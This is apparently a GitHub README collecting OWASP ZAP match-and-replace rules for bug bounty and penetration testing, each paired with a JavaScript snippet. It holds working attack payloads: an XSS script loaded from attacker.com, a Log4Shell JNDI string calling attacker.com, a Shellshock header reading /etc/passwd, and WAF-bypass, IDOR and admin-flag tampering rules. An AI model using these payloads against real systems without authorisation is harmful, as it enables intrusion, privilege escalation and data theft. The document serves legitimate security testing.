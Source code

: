 # Match and Replace ZAP

Useful Match and Replace ZAP rules.

Inspired by: <https://github.com/daffainfo/match-replace-burp>

**Note**: Where applicable each tip is accompanied by an expandable section, that contains a standalone JavaScript code snippet which adds the relevant Match-and-Replace rule in a disabled state. You'll need to go into Replacer's options to enable and use them. (Click the triangle/control to expand them.)

## Finding hidden buttons, forms, and other UI elements

Many sites contain hidden UI elements such as:

```html
<div aria-hidden="true"></div>
<div style="visibility: hidden;"></div>
<div style="display: none;"></div>
<script>document.getElementbyTagName("test").hidden=true</script>
<button type="button" disabled>test</button>
```

In ZAP these can be Revealed with standard functionality: <https://www.zaproxy.org/docs/desktop/addons/reveal/>, however should that not accommodate a particular bit of code/functionality you're encountering a Replacer rule can be leveraged to un-hide or re-enable the component.

- Show Hidden UI

![](images/show-hidden-1.png)

<details>
<summary>Show Hidden UI Elements</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Show hidden UI elements", "", matchType.RESP_BODY_STR, "hidden", false, "hizzen", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

- Show display:none UI

![](images/show-hidden-2.png)

<details>
<summary>Show display:none UI Elements</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Show display:hidden UI elements", "", matchType.RESP_BODY_STR, "display:none", false, "display:n0ne", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

- Change disable to enable

![](images/show-hidden-3.png)

<details>
<summary>Change disable to enable</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Change disable to enable", "", matchType.RESP_BODY_STR, "disable", false, "enable", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

## Changing false to true

Sometimes it is possible to un-hide or re-enable functionality or UI components by simply changing `false` to `true`.
Here are some example scenarios:

- Changing role from normal user to admin

![](images/false-true-admin.png)

<details>
<summary>Change user role to admin</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Change user role to admin", "", matchType.RESP_BODY_STR, "admin: false", false, "admin: true", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

- Set email verified

![](images/false-true-email.png)

<details>
<summary>Set email verified</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Set email verified", "", matchType.RESP_BODY_STR, "email_verify: false", false, "email_verify: true", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

## Bypass WAF

Bypassing WAF by adding some request headers.

- Adding `X-Forwarded-Host: 127.0.0.1`

![](images/bypass-waf.png)

<details>
<summary>Bypass WAF</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Bypass WAF", "", matchType.REQ_HEADER, "X-Forwarded-Host", false, "127.0.0.1", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

Other request headers/values which may assist in bypassing WAFs include (but are not limited to):

```text
X-Forwarded-Port: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-Scheme: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Cluster-Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Client-IP: 127.0.0.1
Origin: null
Origin: Domain.attacker.com
```

Note: Adding multiple headers might be easier with a:
- [Proxy Script](https://github.com/zaproxy/community-scripts/blob/main/proxy/WAF_Bypass.js)
or
- [HttpSender Script](https://github.com/zaproxy/community-scripts/tree/main/httpsender)

## Finding IDOR

For example changing a known UUID to another value:

![](images/finding-idor.png)

<details>
<summary>Finding IDOR</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Finding IDOR", "", matchType.REQ_BODY_STR, "9364e9f8-7080-4852-b2ff-d21e2acee6", false, "d58f540d-bd7b-4b5c-ba2a-f82bbc1241d8", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

## Finding XSS

- Finding XSS on `Referer`

![](images/finding-xss-referer.png)

<details>
<summary>Finding XSS in Referer</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Finding XSS in Referer", "", matchType.REQ_HEADER, "Referer", false, "\"><script src=https://attacker.com></script>", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

- Automatically replace user input with an XSS payload

![](images/finding-xss-user.png)

So by just inputting the string `xss_payload` on the website it will be immediately replaced with `"><script src=https://attacker.com></script>`.
Change the XSS payload as you see fit.

<details>
<summary>Easily replace XSS payload</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Easily replace XSS payload", "", matchType.REQ_BODY_STR, "xss_payload", false, "\"><script src=https://attacker.com></script>", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

## Misc

- Help companies to identify your traffic and separate it from malicious traffic by adding a custom header (ex: `X-Bug-Bounty`, or `X-Header-Hackerone`).

![](images/xbb-header.png)

For example a header that: 
- includes your username: `X-Bug-Bounty: YourBBUsername` or email: `X-Bug-Bounty: user@domain.com`
- includes a unique or identifiable flag: `X-Bug-Bounty: ID-<sha256-flag>`

Source: <https://danaepp.com/why-the-x-bug-bounty-header-matters-for-hackers>

<details>
<summary>Add X-Bug-Bounty header</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Add XBB header", "", matchType.REQ_HEADER, "X-Bug-Bounty", false, "YourBBUsername", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>


![](images/hackerone-header.png)

<details>
<summary>Add hackerone header</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Add hackerone header", "", matchType.REQ_HEADER, "X-Header-Hackerone", false, "YourHackeroneUserName", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

- Setting the `User-Agent` (UA) or emulating a mobile browser.

In ZAP the User-Agent request header is controlled via Connection options. However, if you wanted to emulate a mobile browser in order to see the mobile UI of a target or perhaps discover some different functionality or behavior. You could change it to a Mobile UA: https://www.zaproxy.org/docs/desktop/addons/network/options/connection/#default-user-agent

For example: `Mozilla/5.0 (iPhone; CPU iPhone OS 16_5 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.5 Mobile/15E148 Safari/604.1`

<https://www.whatismybrowser.com/guides/the-latest-user-agent/> is a good source for up-to-date User-Agent strings.

This could also be done with a Replacer rule.

![](images/emulate-ios.png)

<details>
<summary>Emulate iOS</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Emulate iOS", "", matchType.REQ_HEADER, "User-Agent", false, "Mozilla/5.0 (iPhone; CPU iPhone OS 16_5 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.5 Mobile/15E148 Safari/604.1", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

- Finding [CVE-2021-44228](https://github.com/advisories/GHSA-jfh8-c2jp-5v3q)

![](images/log4shell.png)

<details>
<summary>Find CVE-2021-44228</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Replace User-Agent with Log4j Attack", "", matchType.REQ_HEADER, "User-Agent", false, "${jndi:ldap://attacker.com/x}", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>

- Replace User-Agent with shellshock attack [CVE-2014-6271](https://github.com/advisories/GHSA-6hfc-grwp-2p9c)

![](images/shellshock.png)

<details>
<summary>Find CVE-2014-6271</summary>

```js
// This script adds a Replacer rule
var extReplacer = control.getExtensionLoader().getExtension("ExtensionReplacer");

var replacerRule = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule");
// Match types: REQ_HEADER, REQ_HEADER_STR, REQ_BODY_STR, RESP_HEADER, RESP_HEADER_STR, RESP_BODY_STR
var matchType = Java.type("org.zaproxy.zap.extension.replacer.ReplacerParamRule.MatchType");

// https://github.com/zaproxy/zap-extensions/blob/e072df8ca4f7aff54d6e2dda98cfd8503810fa2c/addOns/replacer/src/main/java/org/zaproxy/zap/extension/replacer/ReplacerParamRule.java#L93-L107
var newRule = new replacerRule("Replace User-Agent with shellshock attack", "", matchType.REQ_HEADER, "User-Agent", false, "(){:;};/bin/cat /etc/passwd", null, false, false);
extReplacer.getParams().addRule(newRule);
```

</details>
